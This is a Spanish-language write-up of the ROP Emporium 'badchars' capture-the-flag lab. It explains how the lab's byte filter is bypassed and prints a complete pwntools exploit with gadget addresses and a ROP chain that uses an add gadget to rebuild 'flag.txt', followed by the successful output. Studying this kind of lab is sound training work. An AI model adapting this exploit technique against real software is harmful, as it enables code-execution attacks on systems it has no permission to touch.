 # 5. Badchars (x86\_64)

Este ejercicio es el mismo que [write4](4.-write4-x86_64.md) con una pequeña diferencia.

En este ejercicio en la función donde teníamos el buffer overflow tenemos un bucle que, si nuestro payload tiene ciertos caracteres los cambiará a otro valor, lo cual romperá nuestro Rop:

```c
input = read(0, array, 0x200);

for (x = 0; x < input; x = x + 1) {
    for (y = 0; y < 4; y = y + 1) {
        if (array[x] == "xga.badchars by ROP Emporium"[y]) { // Pilla x, g, a y x como badchars
            array[x] = -0x15;
        }
    }
}
```

Recordemos que en nuestro solve pasamos `flag.txt` al bss, con lo cual mandamos el `flag.txt` en el payload:

```python
    payload = flat({
        offset: [
            pop_r14_r15, exe.bss(), b'flag.txt', # Esto mete badchars
            mov_r14_r15,
            pop_rdi,    exe.bss(),
            exe.plt['print_file'],
        ]
    })
```

Para poder saltarnos esta barrera podemos pasar flag.txt a hexadecimal, restar un byte a cada letra que era un badchar y luego, justo antes de pasárselo como parámetro a la función, sumarle 1 byte con gadget que tenga `add` como por ejemplo `add byte ptr [r15], r14b ; ret`

Con esto podemos pasar a la creación del exploit:

```python
#!/usr/bin/env python3

from pwn import *
import sys

exe = ELF("badchars")
libc = ELF("libbadchars.so")

context.binary = exe
context.terminal = ['kitty']
gdb_script = f'''
continue
'''

def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.GDB:
            gdb.attach(r, gdbscript=gdb_script)
        return r
    return remote("addr", 1337)

def main():
    io = conn()
    
    offset = 40
    pop_rdi = 0x004006a3 # pop rdi ; ret
    mov_r13_r12 = 0x00400634 # mov qword ptr [r13], r12 ; ret
    pop_r12_r13_r14_r15 = 0x0040069c # pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
    add_byte = 0x0040062c # add byte ptr [r15], r14b ; ret
    
    payload = flat(
            b'B' * offset,
            pop_r12_r13_r14_r15, b"\x66\x6c\x60\x66\x2d\x74\x77\x74", exe.bss(), 0x69, 0x69,
            mov_r13_r12, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x2,
            add_byte, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x3,
            add_byte, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x4,
            add_byte, 
            pop_r12_r13_r14_r15, 0x0, 0x0, 0x1, exe.bss() + 0x6,
            add_byte, 
            pop_rdi,    exe.bss(),
            exe.plt['print_file'],
    )
    
    bad = b"xga."
    found = False
    for i, bch in enumerate(payload):
        if bch in bad:
            print(f"[badchar] {chr(bch)!r} en payload[{i}]")
            found = True
    if not found:
        print("[badchar] ninguno")

    io.sendlineafter(b'> ', payload)
    
    io.interactive()

if __name__ == "__main__":
    main()

```

```python
[*] Switching to interactive mode
[DEBUG] Received 0x2c bytes:
    b'Thank you!\n'
    b'ROPE{a_placeholder_32byte_flag!}\n'
Thank you!
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
```

Funciona!
